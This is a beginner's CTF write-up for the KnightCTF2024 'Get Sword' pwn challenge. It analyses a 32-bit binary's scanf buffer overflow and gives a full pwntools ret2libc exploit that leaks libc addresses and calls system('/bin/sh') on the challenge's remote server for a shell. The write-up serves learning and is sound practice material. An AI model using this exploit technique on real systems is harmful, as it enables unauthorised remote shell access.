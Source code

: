 # KnightCTF2024 PWN - Get Sword

I am writing this writeup to share my thought process on how to tackle a PWN challenge for any beginners who want to learn PWN (I am a beginner myself). This took me way longer than expected to solve, probably because I havent joined a CTF in awhile due to exams.

## Initial Analysis

We are provided with an ELF file and we will first gather some information about the challenge we are dealing with.

```bash
└─$ file get_sword           
get_sword: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=4a9b260935bf815a04350e3bb9e0e4422f504b2a, for GNU/Linux 4.4.0, not stripped
```

Running the file command reveals that it is a 32 bit executable, and it is "not stripped" so the debugging symbols are not removed.

```bash
└─$ checksec --file=get_sword
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   35 Symbols        No    0               1               get_sword
```

Then, we will use checksec to identify the security protections on the binary. From the result above, there are no security protections enabled on the binary.

```bash
┌──(kali㉿kali)-[~/Downloads/getsword]
└─$ ./get_sword   
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: a
You want, a
                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/getsword]
└─$ ./get_sword
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You want, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault  ./get_sword
```

Running the binary shows that it takes input from the user and crashes when we give it too much input.
Now, I am going to decompile the binary using Ghidra and look for the main function

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/c5e62d31-5865-4a26-8672-fa743842b809)

In the main function, only two functions are called which is printSword() and intro().

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a0ea7883-048f-40f4-bd71-eb9d3de75ba2)

The printSword() function only prints the banner which is not what we are looking for.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/26e383f7-f088-4a42-9e9c-ca006f3d1abd)

However, in the intro() function, we can obviously spot a buffer overflow vulnerability because scanf is using the "%s" format, which does not check how much input the user provides.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/349e3be6-9672-416a-8bc5-2b1fdff69317)

Taking a look at the stack alignment, we need to send 0x20 (32) bytes of data to overwrite the return address. 

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/796b91e9-fbe7-41d1-9f22-213166f2efa0)

The system function is also imported inside the program, which we will pass "/bin/sh" as an argument to spawn a shell on the remote server. This is a style of challenge called Ret2System.

So, we can overwrite the return address and call system function now, but how do we pass "/bin/sh" as an argument? We need to first leak libc addresses because there is a "/bin/sh" string inside libc.

## Exploit writing

```python
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)
```

So just like we discussed earlier, need to create a payload to overflow the return address. In a 64 bit executable, we will need to pass in arguments to the registers but thats not important here. Since this is a 32 bit executable, we need to call functions from the stack, and also pass in arguments from the stack. 

```
#--------------#
| AAAAAAAAAAAA |
#--------------#
|   FUNCTION   | <--- return address of the current function, we will overwrite this and call printf
#--------------#
|  RET ADDRESS | <--- return address of the new printf function that we are calling
#--------------#
|  ARGUMENT 1  | <--- arguments passed into the printf, which is exe.got.printf
#--------------#
```

This diagram shows how to call a function and pass arguments in x86. First we have the overflow "AAAAAAAA" until we reach the return address. Then we will overwrite this with FUNCTION (in our case, we will call the printf function). So, what we are doing is, we are calling the printf function to print the address of the function in libc. When printf function ends, we will make it jump back to the main function and start exploiting other things again

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2b5f9583-5249-458c-b9a8-f4896bfc64c4)

Now we can calculate the base of libc with this

```python
p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/46e74a9f-5323-414f-8e9b-ca240766d9e5)

We have successfully spawned a shell on our local machine.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/58c9f700-2df7-47be-8f35-50a0848abd60)

But when doing this on the remote server, it fails. We can see from the output that the libc base address is weird, which means that it must be using a different libc version. If this is the case, we will need to leak a few addresses of functions in libc to find the version.

```python
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))


payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
```

This is the modified script to leak addresses.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2dacbffb-3f06-48cb-809e-ea4387454bb1)

With this we will go to https://libc.rip/ to find the libc version

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/ee7b8170-7a09-4af0-9c67-60ce54041b8a)

We got a few matches. Now, we can download one of it and test it. Move the file into the same directory as your exploit script and add this line

```python
libc = ELF('./libc-2.38-4-x86.so')
```

Now, we are ready to test it on the remote server

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a07ec6fc-b8eb-4fc8-9aff-ba678f51459f)

We have successfully spawned a shell on the remote server

## Full Script

```python
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./get_sword')
#libc = exe.libc
libc = ELF('./libc-2.38-4-x86.so')

host = "173.255.201.51"
port = 31337

gdb_script = '''

'''

offset = 32

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

'''
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
'''

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```
